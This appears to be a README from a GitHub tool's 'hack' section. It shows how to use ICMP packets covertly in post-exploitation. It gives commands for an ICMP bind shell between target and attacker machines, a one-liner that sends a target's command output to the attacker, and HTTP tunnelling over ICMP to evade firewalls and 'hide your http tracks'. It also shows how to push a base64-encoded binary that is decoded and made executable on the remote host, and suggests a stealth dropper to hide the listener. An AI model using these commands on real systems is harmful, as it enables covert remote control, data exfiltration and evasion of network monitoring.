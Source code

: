 # Hack

<p align="center"><sup>🧞 "All scripts are there for inspiration and are probably not stable. If you see a good use case and need a more reliable solution, please open an issue"</sup></p>

Some fun things using `QueenSono`
- [Bind Shell](#bind-shell)
  - [One-liner redirect command output](#one-liner-redirect-command-output)
- [HTTP over ICMP tunneling](#http-over-icmp-tunneling)
- [Send binary file](#send-binary-file)

## Bind Shell
<h5 align="center">In <code>QueenSono/hack/bindshell</code></h5>

<p align="center"><i> It is a "bind shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** Sometimes, and for the post exploitation phase it is more suited, you need a bind shell. if ICMP is less monitored than other protocol (eg TCP), having a bind shell trough `QueenSono` is more stealthy.

#### How to do it?

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-bindshell.gif)
On both machines you need to have `qssender`and `qsreceiver`

*> On the target machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the attacker machine:* Bind to the target shell
```
./bindshell.sh <ip_target> <ip_listening_for_icmp>
```

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [fileless-xec](https://github.com/ariary/fileless-xec) repo.*

### One-liner redirect command output

Useful if you can't spawn a shell and thus don't have output for command. You could redirect the output to your attacker machine:
```
export CMD=$([cmd]);qssender send "$CMD" -d 1 -l $LISTEN -r $REMOTE -s 100 -N
```

## HTTP over ICMP tunneling

For a much more sophisticated ICMP tunneling solution see [icmptunnel](https://github.com/DhavalKapil/icmptunnel)

<h5 align="center">In <code>QueenSono/hack/tunneling</code></h5>

<p align="center"><i> Access internet by tunneling HTTP request with ICMP</i></p>

### Use case
* Access internet but firewall rules block http traffic but allow icmp 
* If you want to hide your http tracks 
* Access internal webapp (in this case, put the `qsproxy` in the target machine and `qscurl` in the attacker machine)

#### How to do it?
```
need cap_net_raw cap         need internet access

        ┌───────────┐         ┌───────────────┐           ┌────────────┐
        │           │    1    │               │    2      │            │
        │  qscurl   └─────────►    qsproxy    └───────────►World  wide │
        │           ◄─────────┐               ◄───────────┐    web     │
        └───────────┘    4    └───────────────┘     3     │            │
                                                          └────────────┘
```
1 & 4 are using icmp protocol
2 & 3 are using http protocol

*> On the attacker machine:* Launch the proxy
```
./qsproxy.sh <ip_listening>
```

*> On the target machine:* Order a curl request to be performed by attacker machine
```
# before modify qscurl.sh with according LISTEN and REMOTE addresses
./qscurl.sh http://myawesomeattackersite.com -H \"toto:titi\"
```

## Send binary file

*It is also applicable for all non-human readable files.*

See [this](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-network-restriction-with-icmp) to receive & execute it in 1 step on remote

Launch your listener on receiver machine:
```
qsreceiver receive -l 0.0.0.0 -f [binary64] && cat [binary64] | base 64 -d > [binary] && chmod +x [binary]
```

On sender machine, encode binary file, send it, remove temporary file:
```bash
cat [binary] | base64 > tmpBinary64
qssender send file -d 1 -l 0.0.0.0 -r [receiver_ip] -s 50000 tmpBinary64 # It is recommanded to use -s 50000 but you could put another value
rm tmpBinary64
```



        
        
